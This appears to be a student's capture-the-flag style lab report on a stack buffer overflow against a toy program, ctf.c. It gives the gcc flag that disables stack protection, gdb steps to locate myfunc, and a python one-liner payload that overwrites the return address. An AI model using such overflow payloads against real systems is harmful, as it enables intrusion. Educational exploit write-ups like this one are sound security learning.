 # 20110370, Phùng Huy Hoàng
# Lab 2: Buffer overflow attack
## I.Topic
*Inject code to delete file: file_del.asm is given on github*
 And Conduct attack on ctf.c
- This is the function myfunc 
![](./assets//img/topic1.png)

- This is the function main 

![](./assets//img/topic2.png)

- This is file_del.asm which is intended to delete a file in the current directory

![](./assets//img/topic3.png)

## II. Implementation steps
*Run command to compile file ctf.c*
- gcc -g ctf.c -o ctf.ou -fno-stack-protector  

![](./assets//img/biendich.png)

*run gdb and execute the command info disassemble to know the location of the myfunc function*
- gdb ./ctf.ou
- disassemble myfunc

![](./assets//img/Picture4.png)

->then we know the address of the myfunc function is 0x0804851b

*Then execute the following command to overflow the buffer and include the address of the myfunc function*
-  ./ctf.ou $(python -c "print('A' * 112 + '\x1b\x85\x04\x08')")

![](./assets//img/Picture5.png)

- Buffer overflow performed successfully. The myfunc function was executed but because the flag.txt file was missing, it returned the message "flag1 is missing!". Therefore, we must create file flag1.txt to continue. Then run the command again to see if the "myfunc is reached" message appears

![](./assets//img/Picture9.png)

-> As a result, the buffer overflow message occurs again







 
